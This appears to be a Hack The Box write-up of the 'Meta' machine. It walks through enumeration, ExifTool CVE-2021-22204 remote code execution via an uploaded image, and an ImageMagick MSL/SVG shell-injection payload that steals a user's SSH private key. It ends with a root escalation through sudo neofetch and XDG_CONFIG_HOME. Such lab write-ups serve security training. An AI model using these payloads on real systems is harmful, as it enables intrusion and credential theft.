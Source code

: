 ```yaml
---
title: Meta
tags: 
    - CVE-2021-22204
    - File Upload and Execution
    - ImageMagic
    - Neofetch
    - "Medium Machines"
category:
  - "Hack The Box Writeup"  
date: 2022-02-07
description: "Hack The Box Machine - Meta writeup"
author: "Tejas"
showToc: true
TocOpen: false
draft: false
hidemeta: false
comments: true
disableHLJS: false 
disableHLJS: false
hideSummary: true
searchHidden: false
ShowReadingTime: true
ShowBreadCrumbs: true
ShowPostNavLinks: true
ShowWordCount: true
ShowRssButtonInSectionTermList: false
UseHugoToc: true
cover:
    image: "https://pbs.twimg.com/media/FJehUQnXwA4d7Gi?format=jpg&name=medium" # image path/url
    relative: false # when using page bundles set this to true
    hidden: false # only hide on current single page
---
```


## Enumeration

### Open Ports

```bash
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 12:81:17:5a:5a:c9:c6:00:db:f0:ed:93:64:fd:1e:08 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCiNHVBq9XNN5eXFkQosElagVm6qkXg6Iryueb1zAywZIA4b0dX+5xR5FpAxvYPxmthXA0E7/wunblfjPekyeKg+lvb+rEiyUJH25W/In13zRfJ6Su/kgxw9whZ1YUlzFTWDjUjQBij7QSMktOcQLi7zgrkG3cxGcS39SrEM8tvxcuSzMwzhFqVKFP/AM0jAxJ5HQVrkXkpGR07rgLyd+cNQKOGnFpAukUJnjdfv9PsV+LQs9p+a0jID+5B9y5fP4w9PvYZUkRGHcKCefYk/2UUVn0HesLNNrfo6iUxu+eeM9EGUtqQZ8nXI54nHOvzbc4aFbxADCfew/UJzQT7rovB
|   256 b5:e5:59:53:00:18:96:a6:f8:42:d8:c7:fb:13:20:49 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBEDINAHjreE4lgZywOGusB8uOKvVDmVkgznoDmUI7Rrnlmpy6DnOUhov0HfQVG6U6B4AxCGaGkKTbS0tFE8hYis=
|   256 05:e9:df:71:b5:9f:25:03:6b:d0:46:8d:05:45:44:20 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAINdX83J9TLR63TPxQSvi3CuobX8uyKodvj26kl9jWUSq
80/tcp open  http    syn-ack ttl 63 Apache httpd
|_http-title: Did not follow redirect to http://artcorp.htb
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Enumerating Webpage

{{< figure src="images/Untitled.png">}}


[`http://meta.htb/`](http://meta.htb/)  redirects to `artcorp.htb` lets put the domain in hosts file. 

{{< figure src="images/Untitled%201.png">}}

### Subdomain Enumeration

It says artcorp is in startup phase and it should launch soon. And metaview to launch soon. So, I’m assuming the subdomain could be `metaview.artcorp.htb` or `meta.artcorp.htb` something similar maybe let me try those two first. 

Unfortunately not! They ain’t the subdomain. Ok, time to run ffuf.

{{< figure src="images/Untitled%202.png">}}


My guesses could be wild! But ffuf found a subdomain `dev01.artcorp.htb` lets enumerate it

### Enumerating Webpage - dev01.artcorp.htb

{{< figure src="images/Untitled%203.png">}}

I got this when I uploaded a *webp* file. So we now know its png and jpg **only.**

I then uploaded a jpg file, and it looked like normal metadata viewer 🤔

{{< figure src="images/Untitled%204.png">}}

I googled something like this and found some interesting results 

{{< figure src="images/Untitled%205.png">}}

After uploading the malicious evil.png for POC to check if the exploit worked I made the remote machine ping back my IP. And I captured it using tcpdump. Upon seeing the log from tcpdump I can confirm RCE worked. 

{{< figure src="images/Untitled%206.png">}}

## Foothold

Let’s exploit the RCE which we have found. 

I tried reversehll payloads based upon the [first article](https://shahjerry33.medium.com/remote-code-execution-via-exif-data-im-dangerous-43557d7f3e7a) for some reason it doesn’t give the shell. But I can ping 😑. Ok I think its djvu thing from hackerone [report](https://hackerone.com/reports/1154542) as it has CVE-2021-22204. 

Detail explanation about the is [here](https://blog.convisoappsec.com/en/a-case-study-on-cve-2021-22204-exiftool-rce/). Now lets use the exploit POC from [github](https://github.com/se162xg/CVE-2021-22204)

 

### Exploiting CVE-2021-22204

I first tried this [POC](https://github.com/se162xg/CVE-2021-22204) and then [this](https://github.com/bilkoh/POC-CVE-2021-22204). Finally [this](https://github.com/convisolabs/CVE-2021-22204-exiftool) one worked.

change the IP and Port. Upload the image.

{{< figure src="images/Untitled%207.png">}}

{{< figure src="images/Untitled%208.png">}}

### www-data to thomas

I found a cron job running. Lets see what it is. 

{{< figure src="images/Untitled%209.png">}}

{{< figure src="images/Untitled%2010.png">}}

Its running ImageMagic `/usr/local/bin/mogrify`

{{< figure src="images/Untitled%2011.png">}}

{{< figure src="images/Untitled%2012.png">}}

### Exploiting ImageMagic

{{< figure src="images/Untitled%2013.png">}}

I found two articles interesting lets try them first. 

article [1](https://rhinosecuritylabs.com/research/imagemagick-exploit-remediation/) [2](https://portswigger.net/daily-swig/imagemagick-pdf-parsing-flaw-allowed-attacker-to-execute-shell-commands-via-maliciously-crafted-image)

Article 1 doesn’t seem to work for me. So I’m not posting the things I did.

I found a [poc](https://insert-script.blogspot.com/2020/11/imagemagick-shell-injection-via-pdf.html) close to article 2. Lets try it.

```xml
<image authenticate='ff" `echo $(id)> /dev/shm/tejas`;"'>  
<read filename="pdf:/etc/passwd"/>
  <get width="base-width" height="base-height" />
  <resize geometry="400x400" />
  <write filename="test.png" />
  <svg width="700" height="700" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">       
  <image xlink:href="msl:poc.svg" height="100" width="100"/>
  </svg>
</image>
```

{{< figure src="images/Untitled%2014.png">}}

Now I’ve RCE. Let’s exploit for shell as user Thomas.

Now let’s exfiltrate private key from thomas. 

```xml
<image authenticate='ff" `echo $(cat ~/.ssh/id_rsa)> /dev/shm/id_rsa`;"'>
 <read filename="pdf:/etc/passwd"/>
 <get width="base-width" height="base-height" />
 <resize geometry="400x400" />
 <write filename="test.png" />
 <svg width="700" height="700" xmlns="http://www.w3.org/2000/svg"
xmlns:xlink="http://www.w3.org/1999/xlink">
 <image xlink:href="msl:poc.svg" height="100" width="100"/>
 </svg>
</image>
```

After some time we’ll get the private key but its not formatted lets format it.

`echo "-----END OPENSSH PRIVATE KEY-----" >> id_rsa` 

`echo "b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn <sniped> bhFErAeoncE3vJAAAACXJvb3RAbWV0YQE=" | sed 's/ /\n/g' >> id_rsa`  

`echo "-----END OPENSSH PRIVATE KEY-----" >> id_rsa`

{{< figure src="images/Untitled%2015.png">}}

User flag owned!

## Privilege Escalation

I found the following information. Let’s see what we can do. 

{{< figure src="images/Untitled%2016.png">}}

configuration file for neofetch is located in `$Home/.config/neofetch/config.conf`

Configuration file is very huge, and I’m not interested in reading them. But I feel whenever I run it with sudo config file of user root is used. How do I make the program use the config file from current user thomas 🤔.

What is `XDG_CONFIG_HOME`? I found it interesting and googled it. It seems that I can set the base dir of config file as a environment variable. ok let’s set our home directory as a config directory.

{{< figure src="images/Untitled%2017.png">}}

Now lets modify the config file a bit so our command is executed as root. I modified the neofetch’s config file with `cp /root/root.txt /dev/shm/root.txt && chmod 777 /dev/shm/root.txt`

And then lets run neofetch as sudo.

{{< figure src="images/Untitled%2018.png">}}

Root Flag owned!
